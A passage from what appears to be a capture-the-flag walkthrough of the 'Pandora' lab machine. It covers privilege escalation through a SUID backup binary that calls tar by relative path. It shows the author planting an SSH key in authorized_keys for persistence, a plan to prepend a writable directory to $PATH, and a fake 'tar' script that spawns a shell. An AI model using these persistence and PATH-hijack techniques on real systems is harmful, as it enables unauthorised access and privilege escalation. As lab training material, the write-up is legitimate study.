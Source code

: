It seems that `tar` is executed by this `pandora_backup`.
But it seems that it's executed with relative path.

Let's check `$PATH`.

```bash
matt@pandora:/home/matt$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

And `tar` is located in `/usr/bin` directory.

```bash
matt@pandora:/home/matt$ find / -name tar 2>/dev/null
find / -name tar 2>/dev/null
/usr/bin/tar
```

### Obtain a stable shell

This system doesn't allow the reverse shell session to execute SUID binary as escalated user privilege due to `mpm-itk` (0xdf)

So, I put my public key into `authorized_keys` and opened a more stable SSH shell.

```bash
matt@pandora:/home/matt/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMbNpwF7JxKJ3pkPZ9Rpppuf9MpPwVe+72V+H/kCC7sg kali@kali' > authorized_keys
```

```sql
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh matt@10.10.11.136                
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

...SNIP...

matt@pandora:~$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
```

Here's my strategy;
- Create a malicious `tar` on writable directory.
- Prepend the directory path at `$PATH`

Now let's create a malicious `tar`.

```bash
matt@pandora:~$ cat tar
#!/bin/bash

bash
```
